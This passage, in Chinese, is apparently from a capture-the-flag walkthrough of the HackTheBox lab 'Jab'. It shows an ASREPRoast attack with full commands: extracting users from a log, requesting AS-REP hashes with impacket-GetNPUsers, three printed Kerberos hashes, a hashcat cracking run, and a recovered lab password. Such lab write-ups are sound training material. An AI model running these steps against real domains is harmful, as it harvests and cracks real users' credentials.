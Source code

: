 
提取用户清单中的Email：
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ grep -oP '\w+@jab.htb' purple-debug.log | uniq > user.txt
```

至此，似乎卡住不知道该怎么办了，要密码喷洒感觉难度太大了，一点密码策略都不知道，纯纯暴破感觉不妥。

想起来之前收藏的**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**，机会难得，可以试一下是否有效。  
根据这份思维导图，定位到“got username but no password”的位置，大体上有两个思路，一个就是上面提到的密码喷洒，另一个就是ASREPRoast。


## ASREPRoast

直接照做。一套下来，有3个用户可以无预认证获得TGT（hashcat格式），而其中1个用户凭据可以破解：`jmontgomery@jab.htb:Midnight_121`
```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-GetNPUsers -outputfile GetNPUsers.hash -format hashcat -usersfile user.txt jab.htb/ -dc-ip 10.10.11.4

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ cat GetNPUsers.hash
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855
$krb5asrep$23$lbradford@jab.htb@JAB.HTB:12ab21d5362ed0607532dd32922102fd$8445081728b932a7aa56594712ca12a44836d26932e0b6a50057ec346b24b7316d405f86a4cffe6ea54b0bf54b33fd6cacd6e13f5a6795024bd95c6653309ffe042ac3a26b86c5e053986ae9be6d9b82b7d9f58c130616d8de1d2625f240ea84d791b2fdca85ecb8a2a3ecb787f4f02fd4d3bc54a3003552ae34caee05b5122690b487b996879769f1aa790b42ce96a1c1fcf8f9deef50abb93822945d5cb9e1f2c357c38a3ffc1100ac2491bde95abc9ede3e56ae97da0541170d186c14dca95e1524c6a7d6714683baec02841379405f1b4c7cf77de168f41d9c3c41cd083af4cb
$krb5asrep$23$mlowe@jab.htb@JAB.HTB:f06a9e452c5fd320526d20b5f3c10651$cb7496554c06c770a201e3b9c700408c4b893a82da439b13b6cc24e0a45a0512c3a4e065df2b97962efdde07f4d4abad2649d3f972277696721bc5730d314c82bdd45673b8bb6a7f32aafe526e641ad53f0de456d01d612a1c35475d491b93460545095b093f9c8045623d43b661a37cf20d07e9f26a2f8dd705570ea9c865897423de702ea713ca042d41e4fd736d438f46af7ca7dec79fc2feedd63fa95d2032b927760aa4c7c4c8166e4d89899746ea36ac197f3af23be8863147db3ca30b81139677c2ec939b4b72471bbd0dcc8d25f5e868c116ac9afaf58d6f6076c598d21e


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ hashcat GetNPUsers.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 3700X 8-Core Processor, 1601/3266 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

 (...)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
```